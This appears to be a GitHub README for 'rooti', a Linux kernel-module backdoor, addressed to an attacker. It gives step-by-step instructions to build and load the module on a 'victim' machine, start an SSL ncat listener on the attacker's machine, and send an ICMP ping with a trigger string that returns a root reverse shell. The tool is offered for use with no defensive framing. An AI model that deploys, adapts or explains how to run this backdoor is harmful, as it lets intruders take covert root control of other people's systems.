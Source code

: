 # rooti
Cool little backdoor for linux.

# Installation and requierments
There are two parts - on the attacked machine, and on our machine.
Needed:
- Suitable ncat binary - both for us and the destination.
- This repository.

### On victim
- Clone or copy the repository to destination and just type "make". 
(note: you can always compile the LKM beforehand - but make sure you do it for the right kernel version!)
- Now, you should see a .ko file (main.ko for now - 26.04.2020).
Type: (sudo) insmod main.ko
- To check it worked (only with debug mode on): cat /var/log/kern.log | tail 
And make sure you see some notes there.

### On our machine
- Listen on port 1234 with ncat, ssl enabled:
ncat -vklp 1234 --ssl
- Ping the destination using the payload "hello"
(sudo) nping -c 1 --icmp -dest-ip <dest-ip> --data-string 'hello'   (note: the data-string may change)
- You should recieve a connection with a root shell.
  
# Enjoy!
